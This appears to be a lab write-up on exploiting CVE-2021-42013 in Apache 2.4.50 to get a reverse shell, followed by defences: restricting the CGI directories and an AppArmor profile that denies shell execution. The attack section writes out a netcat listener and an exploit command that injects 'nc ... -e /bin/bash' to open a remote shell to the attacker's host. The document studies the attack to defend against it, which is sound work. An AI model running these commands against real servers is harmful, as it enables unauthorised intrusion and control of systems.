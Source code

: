 # Introduction

In this paper I describe the process behind the security attack called
*Remote Code Execution* (RCE).

This allows an attacker to run arbitrary code on a vulnerable remote
machine, with effects that can vary broadly depending on the type of
payload.

Specifically, I demonstrate how to get a *Reverse Shell* given an
instance of the Apache HTTP Server version 2.4.50.

# What is RCE?

[Remote Code Execution](https://www.avocadosys.com/remote-code-execution-what-is-it-and-how-to-prevent-it) is one of the most severe attacks that can be
launched to servers and applications. In fact it allows the attacker to
execute arbitrary code on the target machine without needing to have
credentials to access the machine or being physically close to it.

An attacker crafts a specific payload to send to the target machine
which then gets executed, possibly without triggering any alarm on the
target machine. Depending on the type of payload injected, the attacker
could chain other attacks and gain full control of the system causing
denial of service, gaining more privileges (privilege escalation),
setting up a backdoor or stealing information and files.

## What is the attack process?

1.  The attacker starts by analysing the target machine for potential
    vulnerabilities.

2.  Once a vulnerability suitable for RCE is identified, the attacker
    tries to exploit it by crafting a specific payload, for example by
    taking advantage of a particular language feature.

3.  They payload is then sent to the target machine and evaluated and
    the result sent back to the attacker.

4.  The attack is completed per se, but other attacks can be chained.

## How to prevent this type of attack?

The first rule when it comes to security is to always keep up-to-date
with the latest security patches and software updates.

Even if this is the case, there is always the possibility that a
vulnerability might exist and that a zero-day exploit could take
advantage of it.

To minimise the risks, a correct strategy should be identified for every
critical part of the software. Sanitising user inputs has proven to be
one of the most effective security measure to prevent this type of
attack, for example.

Although many security measures are put in place, it may not be possible
to prevent all of the attacks. This is why having an alerting system is
crucial to be able to promptly respond to and minimise damage. Such
systems are called [*SIEM*](https://www.ibm.com/topics/siem) (Security Information and Event Management)
and they offer real-time monitoring and analysis of events as well as
tracking and logging of security data for compliance or auditing
purposes.

# Remote Shell

When it comes to taking control of a target system, the most powerful
way is for the attacker to obtain a shell. There are [two different approaches](https://medium.com/@PenTest_duck/bind-vs-reverse-vs-encrypted-shells-what-should-you-use-6ead1d947aa9):

-   Bind Shell

-   Reverse Shell

## Bind Shell

This first approach relies on the target machine listening for incoming
connections to a specific port. It essentially acts as a server which
grants the client access to its shell.

As long as the IP address and port of the target machine are known,
anyone could connect, except there is typically a firewall which filters
incoming connections and/or the real IP address and port could be
shadowed by the NAT.

## Reverse Shell

This second approach relies on the attacker machine listening for
incoming connections to a specific port. It is then the target machine
which connects to the attacker and exposes its shell.

This approach solves the pitfalls of the previous one as the attacker
does not need to know the IP address and port of the target machine.

Most importantly, the firewall rules typically apply only to inbound
connections, so not in the case of the machine opening an outbound
connection.

# Setup

To perform the attack I exploited a vulnerability reported and
classified as [CVE-2021-42013](https://nvd.nist.gov/vuln/detail/CVE-2021-42013) by the NIST.

## Server side

For it to work, the target machine must be running a vulnerable version
of the Apache HTTP Server with CGI enabled:

1.  I installed the version 2.4.50 and modified the configuration file
    *httpd.conf* to enable CGI functionality:

    -   I un-commented the line of code that loads the *cgid_module*:

            LoadModule cgid\_module modules/mod\_cgid.so

    -   Then enabled CGI for all server directories by setting:

            <Directory />
                AllowOverride none
                Require all granted
            </Directory>

2.  I started the server by navigating into */usr/local/apache2/bin* and
    running *sudo apachectl start*

## Client side

I downloaded a [bash script](https://www.exploit-db.com/exploits/50406) to exploit the vulnerability and
made some little modifications myself. The script creates a HTTP request
with a particular route pointing to the shell executable on the target
machine, by performing a path traversal attack. Then it forwards the
given command to this shell, which gets evaluated and, in this case,
causes the target machine to return a shell.

This is the list of steps taken to perform the attack:

1.  I started netcat in listening mode by issuing:

        nc -lvnp 2345

2.  Then I ran the script using a slightly modified command to work with
    my version:

        bash /shared/exploit.bash 192.168.180.145 bin/sh
        "nc 192.168.180.145 2345 -e /bin/bash"

    and got the reverse shell up and running.

# Prevention

I also tried different ways of preventing such attack from working.

## Restricting CGI directories

The first solution is to allow CGI scripts to be loaded and executed
only from specified directories.

This can be achieved by:

-   Reverting to:

        <Directory />
            AllowOverride none
            Require all denied
        </Directory>

-   Setting execution from a specific directory:

        <Directory "/usr/local/apache2/cgi-bin">
            AllowOverride None
            Options +ExecCGI
            Require all granted
        </Directory>

## AppArmor

[AppArmor](https://www.apparmor.net) is a Linux security system which supplements the traditional
Unix discretionary access control (DAC) model by providing mandatory
access control (MAC) and is provided out-of-the-box in the Linux kernel,
since version 2.6.36.

For this approach to work, It requires creating a new AppArmor profile
for the apache server and defining the security policies to enforce.

After some trial and error I came up with a working profile which denies
the execution of shells, effectively preventing the RCE attack, while
still allowing valid requests to be carried out.

This is the resulting policy:

    #include <tunables/global>

    /usr/local/apache2/bin/httpd {
      #include <abstractions/apache2-common>
      #include <abstractions/base>
      #include <abstractions/bash>

      capability chown,
      capability kill,
      capability setgid,
      capability setuid,

      signal send set=term peer=unconfined,

      deny /usr/bin/bash x,
      deny /usr/bin/dash x,
      deny /usr/bin/sh x,

      /usr/bin/python3.8 r,
      /usr/local/apache2/cgi-bin/* rix,
      /usr/local/apache2/htdocs/index.html r,
      /usr/local/apache2/logs/* w,
      /usr/local/lib/python3.8/dist-packages/ r,
      owner /usr/local/apache2/conf/httpd.conf r,
      owner /usr/local/apache2/conf/mime.types r,
      owner /usr/local/apache2/logs/* rw,
      owner /usr/local/apache2/modules/* mr,
    }
